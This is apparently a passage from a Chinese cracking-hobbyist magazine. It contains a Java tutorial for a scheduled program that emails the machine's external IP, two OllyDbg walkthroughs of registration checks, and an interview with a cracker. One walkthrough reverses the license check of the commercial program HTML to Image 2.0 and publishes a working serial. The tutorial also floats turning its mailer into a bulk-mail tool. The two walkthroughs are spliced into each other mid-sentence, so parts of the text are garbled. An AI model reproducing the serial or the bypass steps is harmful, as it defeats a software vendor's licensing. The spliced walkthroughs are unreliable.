在代码中 timer.schedule(new ScheduleRunTask(), 0, delaytime *1000 * 60)这句的意思就是在零毫秒后启动 ScheduleRunTask()任务，并且每隔一段时间重复执行一次任务。一秒等于一千毫秒，我们乘以六十把它化成分钟。Delaytime 这个参数大家可以自己设定，例子中设的是每隔一分钟执行一次任务。但是在实际应用中，我们把时间设长点，比如每隔两个小时发一次邮件等等。代码如下：

```java
package com.naofantian;
import java.util.Timer;
public class U_sever {
    Timer timer;
    public U_sever(int delaytime) {
        timer = new Timer();
        System.out.println("2_定时器启动");
        timer.schedule(new ScheduleRunTask(), 0, delaytime *1000 * 60);
        // 推迟 0 秒执行,间隔 delaytime 分钟重复运行.
        // 1 秒 =1000 毫秒
    }
    public static void main(String[] args) {
        System.out.println("****当前外网 IP 邮件通知程序****");
        System.out.println("****作者：NaoFanTian ***");
        System.out.println("****日期：2008-04-27 ***");
        System.out.println("****邮箱：naofantian@163.com ***");
        System.out.println("1_主程序模块启动");
        //设置多久发送一回 IP
        new U_sever(1);// 分钟 / 次
    }
}
```

上面的服务器模块调用下面的定时模块，定时模块调用线程。代码如下：

```java
package com.naofantian;
import java.util.TimerTask;
public class ScheduleRunTask extends TimerTask {
    private String URL = "http://www.ip38.com/";
    public void run() {
        //创建线程
        new Processor(URL).start();
    }
}
```

线程里面先启动获取 IP 模块，然后启动邮件模块。代码如下：

```java
package com.naofantian;
import java.io.IOException;
public class Processor extends Thread {
    private String tempURL = "";
    public Processor(String URL) {//构造方法
        tempURL = URL;
    }
    public void run() {//线程启动
        try {
            System.out.println("3_开始获得 当前局域网的外网 IP:");
            String IP = GetIP.getIPfromURL(tempURL);
            System.out.println("当前局域网的外网 IP:"+IP);//获得外网 IP
            System.out.println("结束");
            System.out.println("4_开始 发送邮件");
            SendMail.sendToU(IP);//发送邮件
            System.out.println("发送邮件 结束");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}


```

下面我来重点讲解一下本程序的两个核心模块，首先我们需要获得当前外网的 IP。上面说过了，我们的方法是向一个网站发送请求，然后解析返回的字符串，获得我们自己的外网 IP。随便找一个能显示你本机外网 IP 的网站，比如 http://www.ip38.com/。用浏览器打开这个网站，大家看到网页中显示出你的 IP 地址，如图 4 所示。

我们来对这个网页的信息进行一下解析。点击鼠标右键查看当前网页的源文件，源文件中 124.64.65.86 &nbsp;&nbsp;来自：</strong><span id="ipad"> 稍等，查询中....”字符串。我们最终要获得的是文件中“您的本机 IP 地址：”和“&nbsp;&nbsp;来自：”之间的字符串，如图 5 所示。
图 4 外网 IP
图 5 网页源代码中显示的外网 IP

在代码中，先通过 url.openStream()方法打开到此 URL 的连接并返回一个用于从该连接读入的 InputStream，返回 InputStream 类型的数据，然后再把这个字节流放入 InputStreamReader 里转换成字符流，再用 BufferedReader 封装一下。这三个步骤是非常经典的步骤，在 JDK1.6 的 API 文档里有详细说明，大家可以自己看看。之前我们完成了对网址返回数据的封装，然后我们就可以对封装后的 BufferedReader 进行解析了。接着我们来调用 BufferedReader 对象提供的一个 readLine() 方法，把 BufferedReader 中的网页一行一行的读出来。然后作比较截取，把我们需要的 IP 地址字符串截取出来。代码如下：

```java
package com.naofantian;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.net.URL;
public class GetIP {
    public static String getIPfromURL(String tempURL) throws IOException {
        URL url = new URL(tempURL);
        BufferedReader br = new BufferedReader(new InputStreamReader(url.openStream()));
        String input = "";
        String temp = "";
        while((input = br.readLine()) != null) {
            //System.out.println(input);
            if(input.indexOf("<LI>您的本机IP地址：") > 0){
                temp = input.substring(input.indexOf("<LI>您的本机IP地址：")+13, input.indexOf("&nbsp;&nbsp;来自"));
                //System.out.println("当前主机的外网IP："+temp);
            }
        }
        br.close();
        return temp;
    }
}
```

最后调用邮件模块，再把我们上面得到的 IP 地址传进来放到邮件内容处，发送即可。下面的代码都是常规写法，并加了详细注释，大家自己研究。我这里要说一下，接收邮箱和发送邮箱都是用的同一个，你也可以设成不同的，全看自己喜好了。代码如下：

```java
package com.naofantian;
import java.util.Date;
import java.util.Properties;
import javax.mail.BodyPart;
import javax.mail.Message;
import javax.mail.Multipart;
import javax.mail.Session;
import javax.mail.Transport;
import javax.mail.internet.InternetAddress;
import javax.mail.internet.MimeBodyPart;
import javax.mail.internet.MimeMessage;
import javax.mail.internet.MimeMultipart;
public class SendMail {
    public static void sendToU(String content) {
        String tto = "收邮件的邮箱";
        String ttitle = "我是闹翻天";
        String tcontent = "您的主机IP是：" + content;
        Properties props = new Properties();
        props.put("mail.smtp.host", "smtp.163.com");
        props.put("mail.smtp.auth", "true");
        Session s = Session.getInstance(props);
        s.setDebug(true);
        MimeMessage message = new MimeMessage(s);
        // 给消息对象设置发件人/收件人/主题/发信时间
        try {
            InternetAddress from = new InternetAddress("发邮件的邮箱");
            message.setFrom(from);
            InternetAddress to = new InternetAddress(tto);
            message.setRecipient(Message.RecipientType.TO, to);
            message.setSubject(ttitle);
            message.setSentDate(new Date());
            // 给消息对象设置内容
            BodyPart mdp = new MimeBodyPart(); // 新建一个存放信件内容的 BodyPart 对象
            mdp.setContent(tcontent, "text/html;charset=gb2312"); // 给 BodyPart 对象设置内容和格式/编码方式
            Multipart mm = new MimeMultipart(); // 新建一个 MimeMultipart 对象用来存放 BodyPart 对象(事实上可以存放多个)
            mm.addBodyPart(mdp); // 将 BodyPart 加入到 MimeMultipart 对象中(可以加入多个 BodyPart)
            message.setContent(mm); // 把 mm 作为消息对象的内容
            message.saveChanges();
            Transport transport = s.getTransport("smtp");
            transport.connect("smtp.163.com", "用户名", "邮箱密码");
            transport.sendMessage(message, message.getAllRecipients());
            transport.close();
            System.out.println("发送成功!");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

运行的结果显示如下：

```
**** 当前外网 IP 邮件通知程序 ****
**** 作者: NaoFanTian ***
**** 日期: 2008-04-27 ***
**** 邮箱: naofantian@163.com ***
1_ 主程序模块启动
2_ 定时器启动
3_ 开始获得当前局域网的外网 IP:
当前局域网的外网 IP: 124.64.65.86
结束
4_ 开始 发送邮件
DEBUG: setDebug: JavaMail version 1.3.1
DEBUG: getProvider() returning javax.mail.Provider[TRANSPORT,smtp,com.sun.mail.smtp.SMTPTransport, Sun Microsystems, Inc]
......
DEBUG SMTP: trying to connect to host "smtp.163.com", port 25
......
DEBUG SMTP: connected to host "smtp.163.com", port 25
......
Date: Tue, 22 Apr 2008 22:02:46 +0800 (CST)
From: naofantian@163.com
To: naofantian@163.com
......
250 Mail OK ......
QUIT
发送成功!
发送邮件 结束


```

上面显示邮件已经发送成功了，由于网络和邮箱服务器的处理速度问题，可能要等一会邮箱才有反应，如图 6 所示。
点开邮件大家可以看到邮件内容就是我们获得的外网 IP 了，如图 7 所示。
如图 8 所示，那是前一天发的，大家可以看到里面的 IP 是不一样的。
## 总结拓展

如果只是拘泥问题本身，那这篇文章写到这里就算结束了。但是做事情是不应该这样的，做一个求知欲望强烈的青年人就更不能这样了，我再来说明一下程序的拓展方案。

首先，实实在在的讲，由于时间和精力的关系，这个程序还非常的不完善。在实现我们最初目标的前提下，只能算是一个半成品或者说是一个模型，大家可以在这个基础上重构或者二次开发。下面我来给大家提供以下改进思路，大家可以动手试试。

## 程序的改进

- 1. 用户界面交互优化和可配置化。由于程序写的匆忙，在用户的交互和界面做的非常粗糙，大家可以自己美化一下。一些可以配置的地方我都写死在程序里了，比如重复的时间、获取 IP 的- 1.网址、发送和接收邮件的邮箱地址、用户名和密码等等，大家可以把他们写入property类型的文件或者在交互时手工填写。
- 2.自动检测网络连接。程序还应该有一个自动检测网络是否连接的模块，当网络中断后自动连接并启动本程序向外发送IP。这样更智能点，而不是循环发送。
- 3.端口映射。把这个程序和我之前说的端口映射模块结合。

# 程序的变形

- 1.邮件群发器。上面给大家的邮件模块是非常经典的一个模块，拿来改改就可以做成别的工具。首先获取邮件列表，加上多线程就能改成邮件群发器。可别拿来发垃圾邮件和骚扰邮件啊！记得在很久很久以前还有针对邮件服务器的洪水式攻击，原理同上。
- 2.网页抓取器。这是一个很实用的东西，在上面获取网页数据模块的基础上，根据对HTML代码的分析，加上递归算法和排序算法，定时抓取某些网页的信息，建立一个简单的资源库或网络蜘蛛，或者设定特定词汇，在网络上遍历它们的资料，当然你的CPU要是足够的快和硬盘要是足够的大，就开他100个线程。

上面说的功能都不是很难实现，感兴趣就探索一下吧。

好了，文章就到这里了。说句实在话，这篇文章的技术含量有限，本人水平也不高，在此抛个砖，引个玉。所谓少年强则国家强，有大家在这里，我们的国家必将强盛不衰！在此祝福北京奥运，祝福我们的国家，也祝福各位不认识的朋友。

（文中提到的Javaer突击之以小建大的代码已经收录在光盘中）

### 编辑点评：

自己动手，丰衣足食，本文就是一个典型的例子。作者在最后还提出了程序的改进，有兴趣的可以拿来练练手，有成功者，可以来稿和大家一起分享成果哦！

## 86的破言破语：
七月啦！四川大地震，震了很久，死伤真的好多人哦，希望他们可以很快的重建家园。虽然地震算是基本稳定下来了，但是南方却来了大水灾，从电视上看到很多人都靠划船回家或许出去，有的地方基本淹没了一层楼。今年真是好多事啊，但我还是希望在灾难中的人们可以恢复信心，重拾希望。

# 每月破资源

### 汇编程序设计基础专题（chm版）

此电子版是由“没有风”完成的，内容主要是汇编的基础知识，内含一些验证和练习，由作者根据学习过程中的体会而作，看起来可能没有一些汇编书籍上讲解得那么苦涩。如果你看不懂汇编书籍的内容的话，那么此电子版可能是你最好的选择，如图1。

相关连接：http://bbs.pediy.com//showthread.php?t=64480

# 有趣的半明文注册码游戏——HTML to Image 2.0 注册分析

在注册信息中，有明文的出现，也有非明文的出现，但我发现在这中间还出现了一种半明文的方式，那么什么是半明文呢？半明文就是，在所获得的代码信息中，有一半属于是注册码的，但是有一半却是隐藏了起来，需要靠自己的分析能力来获得，这中间还涉及了一点运算处理。是不是还有一点不理解呢？没关系，下面我将用实例来给你解答！

从本文你可以学习到：
- 1、什么是半明文
- 2、程序注册算法分析

本文的实例是Html To Image，它可以容易、快捷地将任意的html页转换成图片或缩略图，而且还可以直接将给定网址的网页保存成bmp、jpeg、tiff、gif、png格式的图片；并可以由大图像生成缩略图；支持批量转换等等功能，暂时我用过后，还算不错。开始前，请你记得把我给你准备好的程序安装好，不然你怎么跟着我的思路来呢？那安装好后，要怎么开始分析呢？你还记得我以前怎么跟你说的吗？首先运行程序，注册一下吧，如图1。

注册后有个提示，你看见了么？一个很明显的提示“Invalid registration code!”。很不错哦，我最喜欢这种提示了。既然有这个提示了，下面用PEiD扫扫看吧，如图2。
嗯，结果为Borland Delphi 6.0 - 7.0，我的最爱，因为Delphi程序容易找出关键点。最近经常用PEiD扫啊扫的，没事就喜欢也用插件扫扫，看看能出现什么密码学的算法，如图3。

很明显的出现了三个，但是我们最熟悉的莫过于MD5了。虽然出现三个，但是在实际注册流程中，是否运用了以上三种，我们还是不知道的。

现在程序也运行过了，PEiD也扫过了，插件也用过了，那么还要等什么呢？该是OD闪亮登场了，大家鼓掌……

OD载入了，字符串插件肯定是首当其冲的先锋，我是啥也不管，先扫了再说，管它行不行。不知你也是不是和我一样冲动？冲动的惩罚是结果我看了半天，一点关键信息也搜不出来。在傻了半天之后，我再次鹰击长空，这次不用“Ascii”方式了，我换成“Unicode”方式，结果果然是划破长空，如图4。
真乖，“Invalid registration code!”乖乖的躺在那里，双击吧！

```assembly
0054A1D3    E8 48A7EBFF      call HtmlToIm.00404920
0054A1D8    83BB 80040000 0>cmp dword ptr ds:[ebx+480], 0
; 是否输入用户名
0054A1DF    75 20            jnz short HtmlToIm.0054A201
0054A1E1    BA ACA25400      mov edx, HtmlToIm.0054A2AC
; Please input your name!
0054A201    83BB 84040000 0>cmp dword ptr ds:[ebx+484], 0
; 是否输入注册码
0054A208    75 20            jnz short HtmlToIm.0054A22A
0054A20A    BA E0A25400      mov edx, HtmlToIm.0054A2E0
; Please input your registration code!
0054A20F    8B83 B4030000    mov eax, dword ptr ds:[ebx+3B4]
0054A22C    E8 B7010000      call HtmlToIm.0054A3E8
关键call
0054A231    85C0             test eax, eax
0054A233    74 19            je short HtmlToIm.0054A24E
0054A235    BA 30A35400      mov edx, HtmlToIm.0054A330
; Thank you for registration! All limitations are removed now.
0054A24E    BA B0A35400      mov edx, HtmlToIm.0054A3B0
; Invalid registration code!
```

这是一个总的大概过程，从上面可以知道，先判断是不是输入用户名，再判断是不是输入注册码。经过分析知道 0054A22C 地址处是关键 call，想要更详细的点信息，我不得不进去看看：

```assembly
0054A47D    8B45 F8          mov eax, dword ptr ss:[ebp-8]
; 注册码保存到 eax
0054A480    E8 17A7EBFF      call HtmlToIm.00404B9C
0054A485    83F8 16          cmp eax, 16
注册码是不是 22 位
0054A488    0F85 83020000    jnz HtmlToIm.0054A711
0054A48E    8B45 F8          mov eax, dword ptr ss:[ebp-8]
0054A491    E8 06A7EBFF      call HtmlToIm.00404B9C
0054A496    83F8 16          cmp eax, 16
注册码是不是 22 位
0054A499    0F85 72020000    jnz HtmlToIm.0054A711
0054A49F    8B45 F8          mov eax, dword ptr ss:[ebp-8]
0054A4A2    E8 F5A6EBFF      call HtmlToIm.00404B9C
0054A4A7    83F8 16          cmp eax, 16
注册码是不是 22 位
0054A4AA    0F85 61020000    jnz HtmlToIm.0054A711
0054A4B0    8B45 F8          mov eax, dword ptr ss:[ebp-8]
0054A4B3    E8 E4A6EBFF      call HtmlToIm.00404B9C
0054A4B8    83F8 16          cmp eax, 16
注册码是不是 22 位
0054A4BB    0F85 50020000    jnz HtmlToIm.0054A711
0054A4C1    8D4D EC          lea ecx, dword ptr ss:[ebp-14]
0054A4C4    BA 03000000      mov edx, 3
edx=3
0054A4C9    8B83 84040000    mov eax, dword ptr ds:[ebx+484]
0054A4CF    E8 C43FEFFF      call HtmlToIm.0043E498
取注册码前三位
0054A4D4    8B45 EC          mov eax, dword ptr ss:[ebp-14]
; eax 保存前三位
0054A4D7    BA 44A75400      mov edx, HtmlToIm.0054A744
; ACM
0054A4DC    E8 07A8EBFF      call HtmlToIm.00404CE8
前三位与 ACM 比较
0054A4E1    0F85 2A020000    jnz HtmlToIm.0054A711
不是就玩完了
0054A4E7    8B45 F8          mov eax, dword ptr ss:[ebp-8]
0054A4EA    E8 ADA6EBFF      call HtmlToIm.00404B9C
0054A4EF    83F8 16          cmp eax, 16
注册码是不是 22 位
0054A4F2    0F85 19020000    jnz HtmlToIm.0054A711
0054A4F8    8D4D E8          lea ecx, dword ptr ss:[ebp-18]
0054A4FB    BA 03000000      mov edx, 3
0054A500    8B83 84040000    mov eax, dword ptr ds:[ebx+484]
0054A506    E8 8D3FEFFF      call HtmlToIm.0043E498
```

```assembly
0054A50B    8B45 E8          mov eax, dword ptr ss:[ebp-18]
0054A50E    BA 44A75400      mov edx, HtmlToIm.0054A744
; ACM
0054A513    E8 D0A7EBFF      call HtmlToIm.00404CE8
0054A518    0F85 F3010000    jnz HtmlToIm.0054A711
0054A51E    8B45 F8          mov eax, dword ptr ss:[ebp-8]
0054A521    E8 76A6EBFF      call HtmlToIm.00404B9C
0054A526    83F8 16          cmp eax, 16
注册码是不是 22 位
0054A529    0F85 E2010000    jnz HtmlToIm.0054A711
0054A52F    8D4D E4          lea ecx, dword ptr ss:[ebp-1C]
0054A532    BA 03000000      mov edx, 3
0054A537    8B83 84040000    mov eax, dword ptr ds:[ebx+484]
0054A53D    E8 563FEFFF      call HtmlToIm.0043E498
取注册码前三位
0054A542    8B45 E4          mov eax, dword ptr ss:[ebp-1C]
0054A545    BA 44A75400      mov edx, HtmlToIm.0054A744
; ACM
0054A54A    E8 99A7EBFF      call HtmlToIm.00404CE8
再次判断前三位
0054A54F    0F85 BC010000    jnz HtmlToIm.0054A711
0054A555    8B4D F8          lea ecx, dword ptr ss:[ebp-8]
0054A558    BA 13000000      mov edx, 13
0054A55D    8B83 84040000    mov eax, dword ptr ds:[ebx+484]
0054A563    E8 A83FEFFF      call HtmlToIm.0043E510
0054A568    837D FC 00       cmp dword ptr ss:[ebp-4], 0
再次判断用户名
0054A56C    0F84 9F010000    je HtmlToIm.0054A711
0054A572    837D F8 00       cmp dword ptr ss:[ebp-8], 0
再次判断注册码
0054A576    0F84 95010000    je HtmlToIm.0054A711
```

不知道作者是不是个变态，注册码位数竟然比较完又比较，比来比去，容易吗我，看得我眼也花了，你写得不累，我看着还累呢！从以上代码可以得到：注册码为 22 位，并且前三位是 ACM。暂时得到这些信息，还要更多？继续往下看：

```assembly
0054A59C    47               inc edi
0054A59D    807C38 FF 2D     cmp byte ptr ds:[eax+edi-1], 2D
; 第 4, 5, 6 位是不是 -
0054A5A2    74 2A            je short HtmlToIm.0054A5CE
```

这里可以知道，注册码的第 4, 5, 6 位是不是“-”，到这里我们就可以得到注册码的前六位了，就是“ACM---”，剩下的是什么呢？继续看：

```assembly
0054A5EF    83F8 10          cmp eax, 10
是不是还有 16 位没分析完
0054A5F2    0F85 19010000    jnz HtmlToIm.0054A711
0054A69A    E8 1D93EBFF      call HtmlToIm.004039BC
0054A69F    8B4D F4          mov ecx, dword ptr ss:[ebp-C]
; 剩下的 16 位，取偶数组合成一组
0054A6CF    8B45 F0          mov eax, dword ptr ss:[ebp-10]
; 剩下的 16 位，取奇数组合成一组
0054A6D2    E8 3DB8FFFF      call HtmlToIm.00545F14
MD5 算法，有兴趣的自己进去看吧
0054A6D7    8B55 D0          mov edx, dword ptr ss:[ebp-30]
; MD5 后的结果
0054A6DA    8D45 F0          lea eax, dword ptr ss:[ebp-10]
0054A6DD    E8 82A2EBFF      call HtmlToIm.00404964
0054A6E2    8D4D CC          lea ecx, dword ptr ss:[ebp-34]
0054A6E5    BA 08000000      mov edx, 8
0054A6EA    8B45 F0          mov eax, dword ptr ss:[ebp-10]
0054A6ED    E8 AE3EEFFF      call HtmlToIm.0043E5A0
取 MD5 结果的最后 8 位
0054A6F2    8B55 CC          mov edx, dword ptr ss:[ebp-34]
; 保存到 edx
0054A6F5    8D45 F0          lea eax, dword ptr ss:[ebp-10]
0054A6F8    E8 67A2EBFF      call HtmlToIm.00404964
0054A6FD    8B45 FC          mov eax, dword ptr ss:[ebp-4]
; 偶数那个组合的取反
0054A700    8B55 F0          mov edx, dword ptr ss:[ebp-10]
; 取 MD5 结果的最后 8 位
0054A703    E8 E0A5EBFF      call HtmlToIm.00404CE8
比较
0054A708    75 05            jnz short HtmlToIm.0054A70F
不相等就玩完
0054A70A    83CE FF          or esi, FFFFFFFF
0054A70D    EB 02            jmp short HtmlToIm.0054A711


```

看不懂上面代码吗？我给你解释一下，还记得之前我已经得到前面六位的注册码了吗？那么除了这六位，那就还剩下 16 位是

# 破零之随便注册无提示

December

- 从本文你可以学习到：
- 注册无提示的下断方法

大家好，又到破零行动的节目了，不知道大家是不是每集追踪呢？前阵子就播放了关于术语方面的，希望对大家的一些名词有所了解，那么我的目的也达到了。这集我们播出的内容是关于随便注册无提示方面的，如果你喜欢，可以跟着我一起操作。

这是一个国外的crackme程序，运行后，可以看见一些信息，如图1。
大概意思就是叫你注册，点击“File”才是正主儿，与我们常见的crackme程序稍微有一点点的不同，我猜想可以正确注册后，会在如图1的界面上显示是否注册的信息，当然，现在我们才刚开始，还是猜想的阶段，是否真的如此，我们还有待验证。呵呵，别急，慢慢来，伙计，这是一项很有意思的手动和脑力游戏。开始前，我们总需要做点准备，收集点信息什么的，以便我们能够快速定位到关键点上去。
不知道的咯？它这里的代码主要就是分析这16位的，根据流程，它把这16位注册码分成了两组，按从左到右和奇偶数位，分别分成了奇数组和偶数组，然后将这两个数组进行MD5运算，取运算结果的最后8位，最后将这8位与取反后的偶数组进行比较，相等则成功，反之就失败。

流程分析到这里，基本是差不多了，因为我们已经将22位的注册码得到了，还需要去搞什么呢？根据代码，用户名并没有参与到运算中。看看我整理出来的一组注册信息吧：

```
Name: December
Code: ACM----6E428502256E4C84


```

再拿它去试一下注册，如图5所示。

嗯，成功了，关闭再运行，看看注册那里，已经成灰色了。
现在你已经知道什么是半明文了吧？前面的六位注册码，就是作者所给出来的，一眼就能看出来，后面的则有点隐蔽，需要分析一下才知道。虽然要爆破它很简单，但是能使用注册信息的话，为什么不使用呢？如果你还看不懂这个流程的话，那么你也做一次练习吧，希望你有所收获！

【本文介绍的相关程序已收录在本期光盘中】

### 编辑点评：

半明文，看来是个边缘词，介于明文与非明文之间。这是一篇关于算法的文章，简单的运算并不难看懂，但是我看出了作者那么多的文章，好像还没见过爆破的，难不成是个会算法不会爆破的家伙？

马上使用peid扫描一下，如图2。

Peid只显示搜索不到什么编译语言或者壳信息，我就顺便看了看EP块，具体信息可以看图2，我猜想可能是作者做了一点手脚。既然注册无提示，查壳扫描也没有所获，只好将它丢进OD去看看了。

```
0040164F t> E8 F8160000 call thorwakc.00402D4C
EP入口点
00401654 ^ E9 78FEFFFF jmp thorwakc.004014D1
00401659 8BFF mov edi,edi
0040165B 55 push ebp
0040165C 8BEC mov ebp,esp


```

从EP的入口点看来，一个CALL，一个JMP，开始我还以为是VC8编译的，但是网上搜了一下，代码有点出入，所以可能不是VC8编译的。不过无所谓了，查找一下字符串看看，结果如图3。
可以看到一行“Thanks”，一行“Thanks for registering!”，老实说，这都是我们的最爱，双击到代码去看看：

```
00401236 833D 64B74000 0>cmp dword ptr ds:[40B764],0
0040123D 75 11 jnz short thorwakc.00401250
0040123F 68 C0000000 push 0C000
00401244 53 push ebx
00401245 FFD6 call esi
00401247 6A 10 push 10
00401249 68 0C934000 push thorwakc.0040930C
ASCII "Please register!"
0040124E EB 0F jmp short thorwakc.0040125F
00401250 68 00C00000 push 0C000
00401255 53 push ebx
00401256 FFD6 call esi
00401258 6A 17 push 17
0040125A 68 20934000 push thorwakc.00409320
ASCII "Thanks for registering!"
```

在这几行代码中，我没有办法在这些地址处中断下来，于是我就将代码往下滚动了几下，发现了一个很熟悉的函数——USER32.GetDlgItemTextA，我就在这里下了一个断点，随便注册了一下，结果可以中断下来了，运气相当的好，我们看看代码：

```
004012FF 8B35 FC804000 mov esi,dword ptr ds:[<&USER32.GetDlgItemTextA>] ; USER32.GetDlgItemTextA
00401305 6A 21 push 21
00401328 8A08 mov cl,byte ptr ds:[eax]
0040132A 40 inc eax
0040132B 84C9 test cl,cl
0040132D ^ 75 F9 jnz short thorwakc.00401328
检测用户名几位
0040132F 2BC2 sub eax,edx
00401331 83F8 03 cmp eax,3
与3比较
小于或等于就跳
00401334 76 4E jbe short thorwakc.00401384
00401336 8D45 D8 lea eax,dword ptr ss:[ebp-28]
00401339 50 push eax
0040133A 8D4D BC lea ecx,dword ptr ss:[ebp-44]
0040133D E8 70000000 call thorwakc.004013B2
算法call
00401342 59 pop ecx
00401343 8D4D BC lea ecx,dword ptr ss:[ebp-44]
出现真码
00401346 8D45 9C lea eax,dword ptr ss:[ebp-64]
出现假码
00401349 8A10 mov dl,byte ptr ds:[eax]
0040134B 3A11 cmp dl,byte ptr ds:[ecx]
奇数位注册码比较
0040134D    75 18           jnz short thorwakc.00401367
不相等就玩完
0040134F    84D2            test dl,dl
00401351    74 10           je short thorwakc.00401363
00401353    8A50 01         mov dl,byte ptr ds:[eax+1]
00401356    3A51 01         cmp dl,byte ptr ds:[ecx+1]
偶数位注册码比较
00401359    75 0C           jnz short thorwakc.00401367
不相等就玩完
0040135B    40              inc eax
```

由代码分析得出，先检测用户名，然后与 3 比较，这里得到结果就是用户名需要大于 3 位，必须是 4 位或者 4 位以上，然后经过一个算法 call，再接着就是真假注册码的比较了。我进入到算法 call 去看看：

```
004013D0    84C9            test cl,cl
004013D2  ^ 75 F9           jnz short thorwakc.004013CD
还是检测用户名
004013D4    2BC6            sub eax,esi
004013D6    8945 D0         mov dword ptr ss:[ebp-30],eax
eax 保存用户名位数
004013D9    33C0            xor eax,eax
004013DB    8D7D D4         lea edi,dword ptr ss:[ebp-2C]
004013DE    AB              stos dword ptr es:[edi]
串存储指令 STOS
004013DF    AB              stos dword ptr es:[edi]
004013E0    AB              stos dword ptr es:[edi]
004013E1    33C9            xor ecx,ecx
004013E3    8BC1            mov eax,ecx
004013E5    99              cdq
004013E6    6A 0A           push 0A
004013E8    5E              pop esi
004013E9    F7FE            idiv esi
/A
004013EB    8BC1            mov eax,ecx
004013ED    8D7415 D4       lea esi,dword ptr ss:[ebp+edx*2C]
004013F1    99              cdq
004013F2    F77D D0         idiv dword ptr ss:[ebp-30]
/ 用户名位数
004013F5    8B45 08         mov eax,dword ptr ss:[ebp+8]
; 用户名保存到 eax
004013F8    8A0402          mov al,byte ptr ds:[edx+eax]
取 ascii 码
004013FB    32C1            xor al,cl
al xor cl
004013FD    0006            add byte ptr ds:[esi],al
加法
004013FF    41              inc ecx
00401400    81F9 FF000000   cmp ecx,0FF
循环 255 次
00401406  ^ 7C DB           jl short thorwakc.004013E3
256 次就往下走
00401408    8365 D0 00      and dword ptr ss:[ebp-30],0
0040140C    8B35 F4804000   mov esi,dword ptr ds:[<&USER32.
wsprintfA>>; USER32.wsprintfA
00401412    8D7D E0         lea edi,dword ptr ss:[ebp-20]
计算完毕，这里已经开始传送注册码了
00401415    8B45 D0         mov eax,dword ptr ss:[ebp-30]
```

这里是程序算法的核心部分，al 是用户名的 ASCII 值，用户名不足 256 位就重复取值，cl 是一个循环次数，从 0 次开始，程序每循环 10 次得到一个结果，这里循环 256 次后，可以得到 25 到 26 个结果左右，将这些结果加起来，最后结果就是注册码了，中文不怎么好表达，我做个等式吧，数据结果保存在 0012F854 中的，我就以 December 用户名解释一下吧。

```
0012F854  44 64 61 66 61 67 63 75 4C 6C              DdafigcuLl
0012F85A  AD D2 C2 D5 D4 E4 B7 E9 BD E2
```

December 的 ASCII 码是 44 65 63 65 6D 62 65 72 44 65 65，最后两位是我加上去的，方便计算直观一点，或许是方便你更能看懂吧，将刚才的数据分别异或 0 -9，那么得到的结果就是 44 64 61 66 69 67 67 63 75 4C 6C 7，这是我们得到的第一个结果。好了，我们来计算第二个吧，希望手工算数让你觉得烦恼，又或者是心烦意乱。用户名是按照你的长度来复制计算的，所以接下来会从 63 开始，因为是第一次计算了，所以异或 A，结果要加上前一个结果 44，如此类推就得到了 AD D2 C2 D5 D4 E4 B7 E9 BD E2，最后得到的结果就是注册码。但这个还不怎么算是真实的注册码，为什么呢？看代码：

```
00401455    57              push edi
00401456    50              push eax
00401457    C643 05 2D      mov byte ptr ds:[ebx+5],2D
0040145B    C645 EF 00      mov byte ptr ss:[ebp-11],0
0040145F    FFD6            call esi
00401461    8D45 E5         lea eax,dword ptr ss:[ebp-1B]
00401464    50              push eax
00401465    8D43 0C         lea eax,dword ptr ds:[ebx+C]
00401468    57              push edi
00401469    50              push eax
0040146A    C643 0B 2D      mov byte ptr ds:[ebx+B],2D
0040146E    C645 EA 00      mov byte ptr ss:[ebp-16],0
00401472    FFD6            call esi
00401474    8D45 E0         lea eax,dword ptr ss:[ebp-20]
00401477    50              push eax
00401478    C643 11 2D      mov byte ptr ds:[ebx+11],2D
0040147C    57              push edi
0040147D    83C3 12         add ebx,12
00401480    53              push ebx


```

我把前面得到的结果分为四组，第一组就是真正注册码的第四组，第二组就是真正注册码的第三组，第三组就是真正注册码的第二组，第四组就是真正注册码的第一组，每一组用 “-” 连接，就是真正的注册码了。我的注册信息如下：
注册成功了，和当初猜想的一样，截个胜利的图片，如图 4。

虽然我滚动了几下鼠标，就能找到中断的地址，太幸运了，为什么呢？因为一般 crackme 程序比较小，可见其代码不会太多，所以往上或往下的代码找找，找个中断地址还是比较简单的。但是如果在真实软件中，代码可能不会这么少，那么又如何下断呢？大家还记得开头的 GetDlgItemTextA 这个函数吗？这个函数就是获取文本框内容信息的，那么我们可以下断点： bp GetDlgItemTextA 来达到中断的目的。当然在真实的软件当中，这个断点也是可行的，除非作者在设计注册框和算法的时候没有使用到此函数。好了，最后说一句，如果注册无提示，那么下 API 断点可能是最便捷的方法了。

【本文介绍的相关程序已收录在本期光盘中】

### 编辑点评：

作者为我们带来一个破解技巧，就是随便注册无提示，这可是初学者的一个绊脚石。API 断点确实是一个非常好用的方法，因为程序代码或多或少都会调用函数的，所以聪明的你一定会去找找哪些函数还会容易下断点。是的，函数有很多，但是我们记熟比较常见的就可以了，我想这不会太多。
大家好，86 有约，这期约到冷血书生，一个对注册算法比较执着的人，而他也是以算法让人们记住了他。他写过很多破文，是 OCN、PYG、DFCG、BCG、DCM 等组织成员，曾经制作发行了《冷血书生文集》，相信有人看过，包含注册算法的文章。曾经在 05 年的时候，他是个发布注册机，补丁的疯子，天天不断发表，让一些人都心有余悸，连我看也不禁心里带点寒。但是闹了一阵子之后，突然就像风一样，消失在大家的眼球中，不知为何。但是又突然像风一样建立了“有间破屋”站点，也不知为何。让我们带着这些疑问去采访一下他，为我们解这些不解之谜……

10086: 你好！很高兴你能接受本刊的采访，开始前能否跟大家简单介绍一下自己与你所建立的“有间破屋”呢？

冷血书生: 你好，其实我也算不上是个Cracker，可能是对逆向工程比较感兴趣而已，目前都是处于失业阶段。记得是大学的最后一年，对逆向工程产生了浓厚的兴趣，那时候多在龙族等论坛逛，基本上每个破解组织的论坛都会去逛一下，以了解新的技术问题。当然那时候跟很多人交流，其中印象最深刻的是PYG的飘云大哥，除了自己的自学之外，可以说飘云大哥把我引进了另外一个迷人的世界。因为那时候初学，会遇上非常多的问题，后来便加入了OCN、PYG、D4S等组织。去年很多人都对搞网站产生了兴趣，所以我也是跟风，建立了“有间破屋”网站，因为自己对网站建设不懂，而且美工方面更差，所以觉得就像个破破烂烂的屋子，所以取名“破屋”。后来想到周星驰演的《鹿鼎记》里面有个“有间客栈”，所以又在破屋前面加上了“有间”两个字，“有间破屋”就是由此而来。我的站主要就是收集一些关于逆向工程方面的文章，所以每天有一小部分人来看看，人气并不怎么样。

